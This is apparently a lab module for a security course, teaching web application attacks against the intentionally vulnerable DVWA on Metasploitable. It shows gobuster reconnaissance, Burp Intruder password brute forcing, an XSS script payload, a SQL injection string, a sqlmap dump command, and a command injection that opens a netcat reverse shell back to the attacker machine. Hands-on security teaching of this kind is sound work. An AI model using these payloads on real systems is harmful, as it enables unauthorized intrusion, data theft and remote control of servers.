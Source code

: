 ```yaml
---
title: Hacking Web Applications
layout: module
---
```


# Hacking Web Applications

## Exercise 1: Recon with `gobuster`

`Gobuster` is a brute-force tool, written in Go and a more modern alternative to `Dirbuster`.

* URIs (directories and files) in web sites
* DNS subdomains
* Virtual hostnames on target web servers
* Open Amazon S3 buckets

Tools like `gobuster` use "wordlists", or a file that contains many (many!) words that are used to find directories, files, crack passwords, etc.

In Kali, you can see installed wordlists by opening a terminal and running `locate wordlists`. Additionally, we have cloned the SecLists Github repo to `/root/SecLists`:

> SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more. The goal is to enable a security tester to pull this repository onto a new testing box and have access to every type of list that may be needed.

### Task 1

Metasploitable is "an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities." In the lab network, there is a Metasploitable machine reachable at `http://metasploitable`. The Metasploitable machine is running a web application called "DVWA" (Damn Vulnerable Web App) which also has gaping security holes we will exploit in these exercises. The DVWA web app is accessible at `http://metasploitable/dvwa`.

Try running `gobuster` on DVWA. You can use any wordlist you want-- there are some in `/root/SecLists` or `/usr/share/wordlists/dirbuster/`.

{% capture text %}
<pre>
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://metasploitable/dvwa/
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3: Brute Forcing a Password using Burp Suite

In this exercise, we'll set up Burp Suite with Firefox, learn some Burp Suite basics, and brute force a password using Burp Suite's Intruder tool.

### Task 1

In your Kali machine, open `Burp Suite`. Since we're using the free Community Edition, you can only start a temporary project. When asked, select `Use Burp Defaults`.

> Note: it may take a minute for Burp Suite to start.

Burp Suite works by proxying network traffic between your browser and the web server. To use it properly, we need to configure a browser to send traffic through Burp Suite.

1. Open Firefox. Go to `about:preferences` -> General -> scroll to the bottom -> Network settings.
2. Click "Manual proxy configuration", and set the host to `127.0.0.1` and the port to `8080`. Check the "Use this proxy for HTTPS" box. Click OK.

![Firefox proxy settings](/img/firefox-proxy-settings.png){:width="50%" height="50%"}

3. Next, navigate to `http://metasploitable/dvwa` in Firefox. You should see the DVWA login page.
4. In Burp Suite, go to Proxy -> HTTP History. You should see the request that Firefox just sent, and the response.

![](/img/burp-suite-dvwa-request.png){:width="80%" height="80%"}

At this point, if you've never used Burp Suite before, just spend a minute clicking around the interface and reading-- it's overwhelming at first, so just try to get your bearing. Burp Suite has a lot of builtin tools.

### Task 2

1. Navigate to DVWA and login using username `admin` and password `password`.
2. On the left sidebar, click "DVWA Security", and set the security level to `Low`.
3. On the left sidebar, click "Brute Force." Attempt to login with `admin` and a dumb password like `1234`.
4. In Burp Suite, find the login request you just sent (it will be a `POST /vulnerabilities/brute`). Right click -> click "Send to Intruder".
5. Along the top tabs in Burp Suite, you should see "Intruder"-- it should be highlighted in orange because you just sent something new to it. Click the tab.
6. You should be in the "Positions" tab by default-- start here. At the bottom, it should say `0 payload positions`. If not, click `Clear` on the right side.
7. Highlight the password you entered (NOT the surrounding quotes), and click "Add". It will surround the password in a special character.
8. Go to the next tab, "Payloads". Here, we'll specify what words Burp Suite should try to use to log in. In "Payload Settings", click `Load ...` and choose a wordlist. I recommend using `/usr/share/wordlists/john.lst`.
9. Go to the last tab, "Settings". Scroll to "Grep - Match". Check the box that says "Flag result items with responses matching these expressions:". There's a good default list, but add "Welcome" to the list (we're cheating a bit here).

![](/img/burp-suite-flag-matches-option.png){:width="30%"}

10. Scroll down again to `Redirections`. Under "Follow redirections:", select `Always`.

11. At the top, click `Start Attack`. If you used `john.lst`, you should see pretty quickly that one of the passwords gave a result that was flagged for the string "Welcome" (hint: you already logged in with the admin password earlier...)

## Exercise X: Reflected XSS

In Firefox, navigate to `http://metasploitable/dvwa`, and click on `XSS reflected` in the left panel. Exploit the text input using XSS.

{% capture text %}
<pre>
    &lt;script&gt;alert("pwned!")</script>
</pre>
{% endcapture %}
{% include cheat.html text=text %}

Bonus question: you just XSS'd yourself, which isn't really that great. How could you XSS someone else with this exploit?

{% capture text %}
<p>
    The XSS attack is embedded in the URL, so you could send someone a link with your XSS parameters pre-filled in. If they click it when they're logged in, the code will run on their machine.
</p>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise X: Stored XSS



## Exercise X: SQL Injection

### Task 1

Navigate to **SQL Injection**. Enumerate users on the system with an SQL
injection.

{% capture text %}
<pre>
    a' or 'a' = 'a
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 2

Use SQLMap to dump the database

-   You'll need to copy your cookie from the browser
-   What RDMS is the target using?
-   Skip test payloads for other RDMSes
-   Which parameter is injectable?
-   What is Pablo Picasso's password?

{% capture code %}
    sqlmap --cookie="<cookie>" --url="http://metasploitable/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --string="surname" --dump
{% endcapture %}
{% include copy-paste.html title="SQLMap" code=code %}

## Exercise X: Command Injection

### Task 1

Navigate to **Command Execution**. Inject the command `id`

-   **\<star-wars-reference\> Use the source Luke!
    \</star-wars-reference\>**
-   **nano-Hint**: If ping returns an error, you won't see anything.
-   What user is PHP running as?

### Task 2

Spawn a [reverse
shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) using
Netcat.

### Task 2a

Start a listener using netcat from Kali:

{% capture code %}
nc -v -l -p 4444
{% endcapture %}
{% include copy-paste.html title="Create a listener" code=code %}

### Task 2b

Inject this command: `localhost && nc -e /bin/bash kali 4444`

-   This will start netcat on the remote host and connect back to you
    with a shell
-   It's normal not to have a prompt -- type commands as you normally
    would anyway

### Task 3

What is the uptime of the system?
